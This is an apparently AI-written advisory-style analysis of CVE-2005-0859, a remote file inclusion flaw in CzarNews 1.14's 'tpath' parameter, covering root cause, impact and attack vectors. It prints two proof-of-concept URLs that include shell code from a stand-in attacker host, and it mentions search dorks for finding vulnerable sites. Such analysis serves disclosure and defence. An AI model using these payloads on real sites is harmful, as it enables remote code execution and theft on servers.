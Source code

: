 Based on the provided information, here's an analysis of CVE-2005-0859:

**Verification:**

The exploit-db.com content explicitly mentions CVE-2005-0859 in relation to "CzarNews 1.14 - 'tpath' Remote File Inclusion". This confirms that the provided content is relevant to the specified CVE.

**Vulnerability Details:**

*   **Root Cause:** The vulnerability is a Remote File Inclusion (RFI) vulnerability. It occurs due to the application's failure to properly sanitize user-supplied input, specifically the `tpath` parameter.
*   **Weaknesses/Vulnerabilities:** The core weakness is the lack of input validation/sanitization, allowing arbitrary URLs to be included in the application's execution.
*   **Impact of Exploitation:** By exploiting this RFI vulnerability, an attacker can inject malicious code into the application, potentially leading to:
    *   Remote code execution on the server.
    *   Data compromise or theft.
    *   Website defacement.
    *   Further attacks on the server or network.
*   **Attack Vectors:**
    *   The attack vector is through HTTP requests to `news.php` or `cn_config.php` with a manipulated `tpath` parameter.
    *   The `tpath` parameter can point to a remote URL hosting malicious code.
*   **Required Attacker Capabilities/Position:**
    *   The attacker needs to be able to send HTTP requests to the vulnerable application.
    *   The attacker must have a server or a location hosting the malicious code to be included.

**Technical Details:**

*   The exploit-db entry provides the following example URLs demonstrating how to exploit the vulnerability:
    *   `http://sitename.com/news.php?tpath=http://SHELLURL.COM?`
    *   `http://sitename.com/cn_config.php?tpath=http://SHELLURL.COM?`
    *  Where `SHELLURL.COM` is the attacker controlled server.
*   The provided dorks allow identifying vulnerable installations.

**Additional Information:**

The provided content from exploit-db offers significantly more detail than the placeholder CVE description. It specifies the vulnerable software (CzarNews 1.14), the vulnerable parameter (`tpath`), the attack vector (HTTP GET requests), and provides proof-of-concept URLs. The Secunia content, while related to vulnerability research in general, does not provide any details specific to CVE-2005-0859 and only mentions the Secunia Research Team.